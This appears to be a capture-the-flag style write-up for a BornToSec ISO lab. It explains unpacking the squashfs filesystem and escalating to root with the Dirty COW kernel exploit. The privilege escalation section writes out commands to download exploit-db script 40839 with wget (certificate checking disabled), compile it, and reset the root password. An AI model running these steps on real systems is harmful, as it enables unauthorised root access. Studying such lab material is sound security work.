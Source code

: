 ## Unsquash

* To understand the file structure of the system that we need to Hack, we are going to open given BornToSec ISO file.<br/>
![files_iso](screens/files_iso.png)
* In casper folder we can see filesystem.squashfs which tells us that system is compessed. It also means that we can decompress system using linux `unsquashfs` function.<br/>
![sqaushed_file](screens/sqaushed_file.png)
You should have access as a laurie via ssh and use /tmp folder to unsqash the system file in /cdrom/casper/filesystem.squashfs

-----------------------------------------------------------------------------------------


## Privilege escalation

* We can access as a lower level user and try to user exisiting explits that will provide us with root access possbily. Exploits are possible for some versions of our system:

* As we know we can execute scripts from tmp folder, only need to upload them there

* There are an [existing script](https://github.com/sneakymonk3y/linux-exploit-suggester/blob/master/linux-exploit-suggester.sh) that we are going to use which named [dirtycow2](https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails), it fits perfectly our system version


* A race condition was found in the way the Linux kernel's memory subsystem handled the copy-on-write (COW) breakage of private read-only memory mappings. All the information we have so far is included in this page.
The bug has existed since around 2.6.22 (released in 2007) and was fixed on Oct 18, 2016.
* An unprivileged local user could use this flaw to gain write access to otherwise read-only memory mappings and thus increase their privileges on the system.
* This flaw allows an attacker with a local system account to modify on-disk binaries, bypassing the standard permission mechanisms that would prevent modification without an appropriate permission set.


* getting script `wget --no-check-certificate https://www.exploit-db.com/download/40839 -O dirty.c`

* Giving 755 permissions to the dirty.c file and to compile with `gcc -pthread dirty.c -o dirty -lcrypt`

* Then execute it and provide a new password for the root user, then just su root.

* Done!
